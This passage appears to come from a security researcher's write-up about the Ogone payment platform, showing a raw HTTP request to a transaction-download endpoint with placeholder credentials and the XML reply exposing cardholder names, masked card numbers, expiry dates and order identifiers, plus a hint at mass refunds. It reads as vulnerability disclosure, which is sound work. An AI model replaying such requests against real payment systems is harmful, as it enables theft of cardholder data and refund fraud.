 
#### Transaction history attack

The following request would retrieve all transactions between 13/12/2016 and 12/01/2017:

{% highlight text %}
POST /ncol/prod/payment_download_ncp.asp HTTP/1.1
Host: secure.ogone.com
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 154
Accept-Language: en-us
Accept: */*
Connection: close
User-Agent: mTerminal/1.1 CFNetwork/758.0.2 Darwin/15.0.0

format=XML&level=ORDERLEVEL&listlasttrns=10&ofd=13&ofm=12&ofy=2016&otd=12&otm=1
&oty=2017&PSPID=PSPID&PSWD=PSWD&Sep=;&structure=DYN&USERID=USERID
{% endhighlight %}

The backend happily replies with a list of transaction performed between the dates provided in the request.

{% highlight xml %}
HTTP/1.1 200 OK
Cache-Control: private, max-age=0
Content-Type: text/x-msdownload
Expires: Thu, 12 Jan 2017 17:16:35 GMT
Strict-Transport-Security: max-age=31536000;includeSubdomains
Content-Disposition: attachment; Filename=Payment_download.ncp
Date: Thu, 12 Jan 2017 17:17:35 GMT
Connection: close

<?xml version="1.0"?>
<DOWNLOAD_REPLY>
<PAYMENT ID="123456" REF="123456" ORDER="12/1/2017" STATUS="9"
LIB="Payment requested" ACCEPT="123456" NCID="123456" NCSTER="0/0"
PAYDATE="12/1/2017" CIE="" FACNAME1="John Doe" COUNTRY=""
TOTAL="999.99" CUR="EUR" METHOD="CreditCard" BRAND="VISA"
CARD="XXXXXXXXXXXX2820" EXPDATE="1217" UID="123456" STRUCT=""
FILEID="/" ACTION="VEN" TICKET="" DESC="" SHIP="0.00" TAX="0.00"
USERID="USERID" MERCHREF="123456" REFID="123456" REFKIND="PSPID"
ECI="5" CCCTY="FR" IPCTY="FR" CVCCHECK="OK" AAVCHECK="NO" VC="NO"
BATCHREF=""></PAYMENT>
--snip--
</DOWNLOAD_REPLY>
{% endhighlight %}

As we can see in the XML reply above, payment items contains:

* last 4 digits of credit card,
* credit card expiration date,
* payment date,
* card holder's name,
* order identifier (in case you want to execute large scale refund),
* ordered goods description.
